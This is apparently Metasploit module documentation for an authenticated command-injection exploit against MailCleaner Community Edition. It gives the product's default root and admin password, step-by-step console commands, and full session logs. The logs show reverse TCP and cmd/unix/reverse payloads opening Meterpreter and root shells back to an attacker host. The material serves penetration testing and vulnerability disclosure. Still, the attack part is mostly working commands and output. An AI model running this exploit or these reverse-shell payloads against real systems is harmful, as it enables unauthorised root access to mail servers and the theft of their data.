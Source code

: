 ## Description

This module exploits the command injection vulnerability of MailCleaner Community Edition product. An authenticated user can execute an operating system command under the context of the web server user which is root.

### Installation
You can download ISO file from following URL.
[https://www.mailcleaner.org/latest-downloads/](https://www.mailcleaner.org/latest-downloads/)

At the time of this writing all the passwords of users such as root or admin user was "MCPassw0rd".

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use use exploit/linux/http/mailcleaner`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing ` Awesome..! Authenticated`.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
PASSWORD => qwe123
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:<password>
[*] Exploiting command injection flaw
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 1 opened (12.0.0.1:4444 -> 12.0.0.100:44974) at 2018-12-19 17:24:44 +0300
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.100:44975) at 2018-12-19 17:24:45 +0300

meterpreter >
```

You can also use cmd payloads.

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
msf5 exploit(linux/http/mailcleaner_exec) > set target 1
msf5 exploit(linux/http/mailcleaner_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP double handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:MCPassw0rd
[*] Exploiting command injection flaw
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo P6zixt2asYXZ29NE;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "P6zixt2asYXZ29NE\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (12.0.0.1:4444 -> 12.0.0.100:53996) at 2018-12-20 12:09:32 +0300

id
uid=0(root) gid=1003(mailcleaner) groups=1003(mailcleaner)
```
